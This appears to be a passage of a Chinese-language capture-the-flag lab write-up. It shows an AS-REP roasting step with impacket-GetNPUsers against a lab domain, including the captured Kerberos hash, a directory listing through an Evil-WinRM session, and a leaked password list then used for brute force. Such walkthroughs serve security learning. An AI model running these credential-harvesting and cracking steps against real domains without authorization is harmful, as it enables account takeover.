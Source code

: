捕获 AS-REP 响应
```bash
┌──(root㉿kali)-[/home/kali/thl/BIG]
└─# impacket-GetNPUsers bbr.thl/song:123
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Cannot authenticate song, getting its TGT
$krb5asrep$23$song@BBR.THL:7778a3e5b83d24074528729cd8e104cf$ce7dbe4474a7db21b21809a7af5f3416786079bc76f6f780dbea54769b28b03d04ca645a378eeddce0bee8615211f36cfeba66c4bf4c3b7c4adcc74b474482a977105c2d8571ff3b2393b5a61e1292c8ffa7b801ce0d76f1ae4d540ccabd7430f1f67175812a94ca527b707fc07644e6f22d2cba60f0f6e280b4f0f7dc28817df23202d8b9b81ca5d9a0ad02dcbed0a7d87b797236a902051c44a83ebe97f603b741754f36b1cbed5d9dd71d3cd82017db227d6a8004af1bf4007877cdcc2e7af7c83e60304973c0dcb5fbb98cebbe59334307b935065b1a4abbba83b5bb82cdb409
```

hashcat 破解发现用rockyou爆破不出来
可能是信息收集不够。 我们直接去看一下网站目录下有什么东西
```bash
*Evil-WinRM* PS C:\inetpub\wwwroot\songs> dir


    Directory: C:\inetpub\wwwroot\songs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/2/2024   4:54 AM           3535 BigPoppa.txt
-a----         5/2/2024   4:54 AM           4280 Hypnotize.txt
-a----         5/2/2024   4:54 AM           3350 Juicy.txt
-a----         5/2/2024   4:54 AM           1793 Skyisthelimit.txt
-a----         5/3/2024   2:06 PM            168 web.config

```

可以发现网站 `songs` 目录下我们少拿了很多文件

都下下来看看
发现 `Skyisthelimit.txt` 里面是一个密码字典
```bash
┌──(root㉿kali)-[/home/kali/thl/BIG]
└─# cat Skyisthelimit.txt
123456
admin
12345678
123456789
1234
12345
password
123
Aa123456
1234567890
UNKNOWN
1234567
...

```
利用这个字典进行爆破
